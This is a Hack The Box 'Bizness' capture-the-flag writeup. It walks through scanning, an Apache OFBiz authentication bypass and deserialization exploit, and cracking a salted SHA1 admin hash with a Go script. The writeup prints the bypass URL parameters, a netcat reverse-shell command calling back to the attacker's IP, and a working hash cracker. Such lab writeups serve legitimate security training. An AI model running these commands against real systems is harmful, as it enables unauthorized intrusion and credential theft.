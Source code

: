 ```yaml
---
title:  HTB Bizness Writeup
published: 2024-05-27
description: 'Writeup of "Bizness" from Hack The Box'
image: './icon.png'
tags: [CTF, Writeup, Go, Apache OFBiz, Hash cracking, SHA1, HTB, Java Deserialization, ysoserial]
category: 'CTF writeup'
draft: false
---
```


# Overview
- Machine: **Bizness**
- OS: **Linux**
- Difficulty: **<span style="color:green">Easy</span>**
- Vulnerabilities: **Authentication Bypass** 

---
# User flag
## Reconnaissance

#### Port scan
To start, we need to identify all the ports that is running on the target machine. We can use the following Nmap command:</br>
```bash
nmap -sV -sC 10.10.11.252 -p- -vv -oA nmap/port_scan

PORT     STATE    SERVICE  REASON      VERSION
22/tcp   open     ssh      syn-ack     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open     http     syn-ack     nginx 1.18.0
443/tcp  open     ssl/http syn-ack     nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
```
:::note
As we know about *bizness.htb* now we can put it on our _/etc/hosts_ file.
:::

Opening the website we got the folowing page:
![Bizness main page](./website.png)

#### Directory brute force
I immediately have ran _fuff_ with the wordlist _common.txt_ from [seclist](https://github.com/danielmiessler/SecLists) to see if are any hidden directories on the page:</br>
```bash
ffuf -u https://bizness.htb/FUZZ seclists/Discovery/Web-Content/common.txt
------------------------
control         [Status: 200, Size: 34633, Words: 10468]
index.html      [Status: 200, Size: 27200, Words: 92189]
```
And accessing the _'/control'_ page we get the following error message:
![Apache ofBiz error](./control.png)


## Exploitation
Knowing about **Apache OFBiz** I started looking for public exploit and CVEs and eventually I got on this github repo:
::github{repo='jakabakos/Apache-OFBiz-Authentication-Bypass'}
### How it works
The exploit takes advantage of two vulnerabilities of this apache OFZiz version: 

- **CVE-2023-51467**: Is a **Authentication Bypass** that consist in add `?USERNAME=&PASSWORD=&requirePasswordChange=Y.` in the end of the URL and the login fuction of Apache OFBiz will bug and think you are authenticated on the application. If you want more in details about it works check out [Sonic Wall blog post](https://blog.sonicwall.com/en-us/2023/12/sonicwall-discovers-critical-apache-ofbiz-zero-day-authbiz/) about it.

- **CVE-2023-49070**: Is a **Authenticated Java Deserialization** bug on the endpoint `/webtools/control/xmlrpc/`.

The exploit I found actually uses [ysoserial](https://github.com/frohoff/ysoserial) to generate the serialized data.Configuring the java enviroment to work properly can be complex, so I recommend running it mannually in a docker container. Luckily, the exploit worked in my environment and I got a **reverse shell** with the follow command: 
```bash
python3 exploit.py --url https://bizness.htb/ --cmd 'nc -e /bin/sh 10.10.14.27 443'
```
![User flag](./user.png)

:::note
After getting the reverse shell I run the classics commands to get stty working on zsh
shell: 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash") 
<CTRL Z>
stty raw -echo;fg
<ENTER>
```
:::

# Privilege escation

## Reconnaissance

Once I got the shell, I started enumerating the machine with the following commands:
```bash
ss -ltnp # Show the listening ports on the host
sudo -l # Check for sudo privileges (note: password require)
```

Next, I searched for passwords in Apache OFBiz configuration files but without success.Eventually, I found a file named _docker/docker-entrypoint.sh_ which contained the following code that generates a **SHA1 hash**:

```bash
load_admin_user() {
  if [ ! -f "$CONTAINER_ADMIN_LOADED" ]; then
    TMPFILE=$(mktemp)

    # Concatenate a random salt and the admin password.
    SALT=$(tr --delete --complement A-Za-z0-9 </dev/urandom | head --bytes=16)
    SALT_AND_PASSWORD="${SALT}${OFBIZ_ADMIN_PASSWORD}"

    # Take a SHA-1 hash of the combined salt and password and strip off any additional output form the sha1sum utility.
    SHA1SUM_ASCII_HEX=$(printf "$SALT_AND_PASSWORD" | sha1sum | cut --delimiter=' ' --fields=1 --zero-terminated | tr --delete '\000')

    # Convert the ASCII Hex representation of the hash to raw bytes by inserting escape sequences and running
    # through the printf command. Encode the result as URL base 64 and remove padding.
    SHA1SUM_ESCAPED_STRING=$(printf "$SHA1SUM_ASCII_HEX" | sed -e 's/\(..\)\.\?/\\x\1/g')
    SHA1SUM_BASE64=$(printf "$SHA1SUM_ESCAPED_STRING" | basenc --base64url --wrap=0 | tr --delete '=')

    # Concatenate the hash type, salt and hash as the encoded password value.
    ENCODED_PASSWORD_HASH="\$SHA\$${SALT}\$${SHA1SUM_BASE64}"

    # Populate the login data template
    sed "s/@userLoginId@/$OFBIZ_ADMIN_USER/g; s/currentPassword=\".*\"/currentPassword=\"$ENCODED_PASSWORD_HASH\"/g;" framework/resources/templates/AdminUserLoginData.xml >"$TMPFILE"

    # Load data from the populated template.
    /ofbiz/bin/ofbiz --load-data "file=$TMPFILE"

    rm "$TMPFILE"

    touch "$CONTAINER_ADMIN_LOADED"
  fi
}
```

:::note
The code essentially generates a **SALT**, concatenate it with the **PASSWORD**, hashes the result using `sha1sum`, and encode it again using base64 for URLs. Finally, it save the encoded password in the format: `$SHA${SALT}{SHA1}`.
:::

## Exploitation

After learning about the hash, I used this command `grep -r '$SHA` to see if the hash existed on the machine. The command returned some files inside the directory _/runtime/data/derby/ofbiz/seg0/_. Navigating to this directory, I found many _.dat_ files (probally database files), So I used `strings` and `grep` commands to extract the hash. 

![strings command](./strings.png)

## Cracking the hash

The easy option would by to manually decode the base64-encoded password and provide the SALT and HashType to John or Hashcat. However, to improving my Go skills, I coded the following script to crack the hash:

```go
package main

import (
	"bufio"
	"crypto/sha1"
	"encoding/base64"
	"encoding/hex"
	"fmt"
	"os"
	"strings"
)

const salt = "d"

const HASH = "uP0_QaVBpDWFeo8-dRzDqRwXQ2I"

func main() {

	//Read the wordlist file
	worlist_file := "/usr/share/wordlists/rockyou.txt"
	wordlist, _ := os.Open(worlist_file)
	scanner := bufio.NewScanner(wordlist)
    defer wordlist.Close()

	for scanner.Scan() {

        // Use sha1sum on the Salt and password
		hash := sha1.New()
		hash.Write([]byte(salt))
		hash.Write([]byte(scanner.Text()))
		sha1_pass := hash.Sum(nil)

        // Base64 encode it and remove the '=' charactes at the end. 
		found_hash := strings.TrimRight(base64.URLEncoding.EncodeToString(sha1_pass), "=")

        // Check if the Hash we got matches the hash we are searching for.
		if found_hash == HASH {
			fmt.Println("Found: ", scanner.Text())
            break
		}
	}

}

```
running the above code with `go run ./main.go` will eventually give us the right password as showing in the following screenshot:
![Password](./hash_crack.png)

:::warning
This code works but have some compabilities problems. For example, if the password contains the character '%', the `printf` function in bash (docker-entrypoint.sh) will interpret it, but your go script won't, so we will never found the password.
:::

With the cracked password, we can log in as root:</br>
`su root`

![Root](./root.png)

With root access, we can read the contest of `/root/root.txt` file and complete the CTF challenge.
